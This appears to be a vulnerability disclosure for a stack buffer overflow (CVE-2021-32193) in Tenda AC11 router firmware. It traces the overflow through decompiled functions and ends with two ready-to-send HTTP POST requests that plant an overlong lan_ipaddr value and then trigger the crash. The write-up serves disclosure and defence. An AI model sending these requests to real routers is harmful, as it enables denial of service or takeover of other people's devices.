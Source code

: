 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v4` into a stack buffer pointed by `v30`. `v4` is directly retrived from the nvram variable `lan_ipaddr` without any security check.

![1](1.PNG)

the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.

![2](2.PNG)

If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.

![3](3.PNG)


In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.


![4](4.PNG)


So by first setting the `lan_ipaddr` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
## CVE ID
CVE-2021-32193